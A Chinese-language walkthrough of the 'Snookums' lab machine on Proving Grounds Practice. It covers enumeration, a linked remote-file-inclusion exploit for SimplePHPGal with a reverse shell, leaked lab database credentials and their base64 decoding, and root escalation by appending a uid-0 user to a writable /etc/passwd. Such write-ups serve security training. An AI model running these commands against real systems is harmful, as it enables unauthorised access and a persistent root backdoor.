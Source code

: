 ```yaml
---
title: Proving Grounds Practice-Snookums
date: 2025-5-31 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


## nmap

![image-20250531145654102](Snookums/image-20250531145654102.png)

## web

### dirsearch

扫目录挨个查看后没有有用信息，版本号和cms也在`index.php`直接就有，也不用查看`README.txt`

![image-20250531150941879](Snookums/image-20250531150941879.png)

![image-20250531150955426](Snookums/image-20250531150955426.png)

### exploit-get_shell

[beauknowstech/SimplePHPGal-RCE.py](https://github.com/beauknowstech/SimplePHPGal-RCE.py)根据版本去搜索相关漏洞，该版本存在远程文件包含漏洞

使用该exp时需要注意，靶机对防火墙策略做了更改，只允许一部分端口出防火墙，该exp使用的是反向连接，设置监听端口时需要修改为靶机开放的其他端口，使用示例的4444端口会失败

![image-20250531155057804](Snookums/image-20250531155057804.png)

![image-20250531155105598](Snookums/image-20250531155105598.png)

## get shell-apache

当前用户是`apache`用户，需要先提权到`michael`用户再提权到`root`

![image-20250531161501142](Snookums/image-20250531161501142.png)

在网站目录下有数据库连接账号密码

![image-20250531161406562](Snookums/image-20250531161406562.png)

```
MalapropDoffUtilize1337
SimplePHPGal
```

可以使用mysql连接到数据库

```
mysql -h127.0.0.1 -P3306 -uroot -p
```

![image-20250531165059162](Snookums/image-20250531165059162.png)

![image-20250531171018983](Snookums/image-20250531171018983.png)

```
U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==:SG9ja1N5ZG5leUNlcnRpZnkxMjM=
```

直接使用该密码登录是不对的，密码还经过bash64加密了，解密之后才是正确密码：`HockSydneyCertify123`

![image-20250531171218063](Snookums/image-20250531171218063.png)

## 提权

寻找可写目录

```
find / -writable 2>/dev/null
```

![image-20250531174540247](Snookums/image-20250531174540247.png)

其中/etc/passwd可写，可在其中加入一个用户

```
需要先加密密码
openssl passwd w00t

echo "root2:h2oyZHD64vy0.:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
Password: w00t
```

![image-20250531175917602](Snookums/image-20250531175917602.png)